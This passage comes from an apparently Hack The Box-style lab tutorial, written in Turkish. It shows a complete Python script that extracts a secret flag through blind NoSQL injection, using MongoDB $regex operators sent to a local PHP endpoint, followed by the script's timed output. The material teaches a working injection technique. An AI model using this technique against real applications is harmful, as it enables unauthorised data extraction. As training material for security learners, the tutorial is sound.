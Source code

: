 
### finished script

Her şeyi bir araya getirdiğinizde, tamamlanmış script şu şekilde görünmelidir:

```python
#!/usr/bin/python3

import requests
import json

# Oracle
def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text

# Oracle'ın doğru çalıştığından emin olun
assert (oracle("X") == False)
assert (oracle({"$regex": "^HTB{.*"}) == True)

# Takip numarasını dump edin
trackingNum = "HTB{" # Takip numarasının ‘HTB{’ ile başladığı bilinmektedir
for _ in range(32): # Aşağıdakileri 32 kez tekrarlayın
    for c in "0123456789abcdef": # Karakterler arasında döngü [0-9a-f]
        if oracle({"$regex": "^" + trackingNum + c}): # <trackingNum> + <char>'ın $regex ile eşleşip eşleşmediğini kontrol edin
            trackingNum += c # Eğer varsa, trackingNum'a karakter ekle ...
            break # ... ve döngüden çıkmak
trackingNum += "}" # Takip numarasının sonuna bilinen ‘}’ ekleme

# Takip numarasının doğru olduğundan emin olun
assert (oracle(trackingNum) == True)

print("Tracking Number: " + trackingNum)
```

Bu script çalıştırıldığında takip numarası başarıyla dump edilecektir. Alfabe (`0-9a-f`) çok küçük olduğundan, işlem çok hızlı ilerler; bu durumda, sadece yaklaşık 20 saniye sürer.

```shell-session
[!bash!]$ time python3 mangopost-exploit.py 

Tracking Number: HTB{...SNIP...}

real    0m23.006s
user    0m0.419s
sys     0m0.033s
```

